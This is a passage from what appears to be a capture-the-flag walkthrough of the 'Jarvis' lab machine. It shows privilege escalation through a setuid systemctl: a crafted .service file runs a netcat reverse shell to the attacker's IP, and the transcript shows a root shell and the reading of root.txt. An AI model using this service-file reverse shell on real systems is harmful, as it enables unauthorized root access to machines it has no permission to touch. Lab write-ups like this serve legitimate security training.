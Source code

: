 ### Malicious Service

A service is defined by a `.service` file. The `systemctl` is used to link it
to `systemd`, and then used again to start the service. What the service does
is defined by the `.service` file.

[gtfobins](https://gtfobins.github.io/gtfobins/systemctl/) has a page for
`systemctl`, and it gives an example where a single command is executed and
output to a file in `tmp`. I’ll modify that slightly to give me a shell.

    
    
    pepper@jarvis:/dev/shm$ cat >0xdf.service<<EOF
    [Service]
    Type=notify
    ExecStart=/bin/bash -c 'nc -e /bin/bash 10.10.14.8 443'
    KillMode=process
    Restart=on-failure
    RestartSec=42s
    
    [Install]
    WantedBy=multi-user.target
    EOF
    

Now I use `systemctl` to link this service:

    
    
    pepper@jarvis:/dev/shm$ systemctl link /dev/shm/0xdf.service
    

Now start the service, with a `nc` listener ready to catch the shell:

    
    
    pepper@jarvis:/dev/shm$ systemctl start 0xdf
    

My listener gets a shell:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.143.
    Ncat: Connection from 10.10.10.143:37160.
    id
    uid=0(root) gid=0(root) groups=0(root)
    

After upgrading my shell, I’ll grab `root.txt`:

    
    
    root@jarvis:/root# cat root.txt 
    d41d8cd9...
    

## Beyond Root
